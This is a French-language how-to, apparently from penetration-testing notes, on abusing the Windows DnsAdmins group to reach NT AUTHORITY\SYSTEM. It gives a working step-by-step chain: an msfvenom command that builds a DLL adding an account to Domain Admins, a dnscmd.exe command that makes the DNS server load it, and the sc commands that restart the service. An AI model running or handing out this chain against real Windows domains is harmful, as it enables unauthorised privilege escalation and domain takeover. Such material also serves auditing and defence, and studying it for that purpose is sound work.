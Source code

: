 Le groupe DnsAdmins permet une administration partielle des services DNS sur un domaine Windows. Ce groupe peut également être exploité pour une élévation de privilèges, en raison de la capacité à charger des bibliothèques DLL arbitraires dans le processus du service DNS.

### Implications en matière de sécurité

L'abus de ce privilège peut permettre une élévation de privilèges à `NT AUTHORITY\SYSTEM`, le niveau de privilège le plus élevé sur un système Windows. C'est parce que le service DNS s'exécute sous ce compte utilisateur.

### Génération du .DLL

La première étape est de générer un fichier DLL qui, lorsqu'il est chargé, exécutera un code arbitraire. Vous pouvez utiliser msfvenom pour cela :

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

### Transfert du .DLL et Injection

Après avoir transféré le fichier `.dll` sur la machine cible, utilisez `dnscmd.exe` pour configurer le serveur DNS afin qu'il charge la DLL :

```powershell
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```
### Redémarrage du service DNS

Après avoir configuré la DLL, il vous faudra redémarrer le service DNS pour que la DLL soit chargée et exécutée.

Pour arrêter le service DNS :

```cmd
sc stop dns
```

Pour démarrer le service DNS :

```cmd
sc start dns
```

